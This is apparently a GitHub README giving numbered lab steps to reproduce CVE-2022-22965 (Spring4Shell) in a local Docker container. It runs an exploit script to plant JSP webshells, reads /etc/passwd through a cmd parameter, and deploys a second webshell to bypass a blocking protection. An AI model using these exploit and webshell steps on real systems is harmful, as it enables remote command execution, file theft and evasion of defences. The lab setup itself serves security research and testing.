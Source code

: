 1. mvn clean package
2. docker build . -t cve-2022-22965-exploit
4. docker run -p 8080:8080 -p 8000:8000 cve-2022-22965-exploit
5. curl http://localhost:8080/exploit/greeting
6. python3 -m pip install -r requirements.txt
7. python3 exploit.py --url="http://localhost:8080/exploit/greeting" --dir="webapps/ROOT" --file="reflection"
8. curl "http://localhost:8080/reflection.jsp?cmd=cat%20/etc/passwd" and see that we are blocked
  ![block.png](block.png)
9. Now deploy another webshell that uses unsafe API and escape constructor check;
   `   python3 exploit.py --url="http://localhost:8080/exploit/greeting" --dir="webapps/ROOT" --file="unsafe"
   `
10. curl "http://localhost:8080/unsafe.jsp?cmd=cat%20/etc/passwd" and enjoy the bypass
   ![bypass.png](bypass.png)
